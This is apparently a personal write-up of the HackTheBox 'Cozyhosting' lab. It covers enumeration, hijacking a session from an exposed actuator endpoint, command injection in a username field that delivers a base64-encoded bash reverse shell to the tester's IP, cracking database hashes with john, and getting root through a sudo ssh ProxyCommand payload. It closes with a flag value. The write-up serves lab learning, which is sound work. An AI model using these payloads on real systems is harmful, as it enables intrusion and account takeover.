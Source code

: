 # Cozyhosting

![Untitled](https://github.com/joaorelva/HackTheBox/assets/45034257/eaa26dac-0646-485f-bb51-ca52183757c9)

## Enumeration

nmap -A -sV -sS cozyhosting.htb

![Untitled 1](https://github.com/joaorelva/HackTheBox/assets/45034257/2bb0b3a0-d996-4098-9424-338eefc70511)

dirsearch -u cozyhosting.htb

![Untitled 2](https://github.com/joaorelva/HackTheBox/assets/45034257/8ed93197-4f12-484e-a74b-bccc40fc988f)

I found the session ids for the users in this link http://cozyhosting.htb/actuator/sessions. So i tried to login with the session id of kanderson in inspetctor and i had success.

![Untitled 3](https://github.com/joaorelva/HackTheBox/assets/45034257/5b22d001-75b4-42d6-a261-1a0f70053ae5)
![Untitled 4](https://github.com/joaorelva/HackTheBox/assets/45034257/5b81cd38-e929-48e1-ae2b-4f3585151225)

## Exploitation

Scrolling to the bottom of the website i saw possible ssh conection. I passed some inputs and captured them on burpsuite.

![Untitled 5](https://github.com/joaorelva/HackTheBox/assets/45034257/005f05c2-51a7-4049-b6fd-327d38b5d538)

It responded to the command, so we will try to reverse shell enconded with base64 because of the special characters.

Payload (base64): echo “`/bin/bash -c 'bash -i >& /dev/tcp/<your_ip>/443 0>&1'`" | base64 -w 0

`username=2>/dev/null;echo${IFS}<base64_encoded_payload>|base64${IFS}-d|/bin/bash;#`

SHELL OWNED.

Now we need the user josh flag. We can see this file: cloudhosting-0.0.1.jar.

I created a local server on the machine to download the file:

`python3 -m http.server 4444`

wget http://10.10.11.230:4445/cloudhosting-0.0.1.jar

jd-gui [cloudhosting-0.0.1.jar](http://10.10.11.230:4445/cloudhosting-0.0.1.jar) to see the file 

![Untitled 6](https://github.com/joaorelva/HackTheBox/assets/45034257/944fcaf5-2eba-49d0-a43a-1205ce36dbd2)

Login in postgres database: psql -h 127.0.0.1 -U postgres

Select * from users;

![Untitled 7](https://github.com/joaorelva/HackTheBox/assets/45034257/9563c2fe-ee62-4062-8d21-e563d05a9fc8)

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

ssh josh@cozyhosting.htb

## Privilege Escalation

sudo -l to see what josh can run as root: (root) /usr/bin/ssh *

There was a simple payload at GTFOBINS which successfully allowed us to get the shell as the superuser(root).

Payload: https://gtfobins.github.io/gtfobins/ssh/#sudo

`sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x` → FLAG: c70f826511e78055af97293ec35d6420
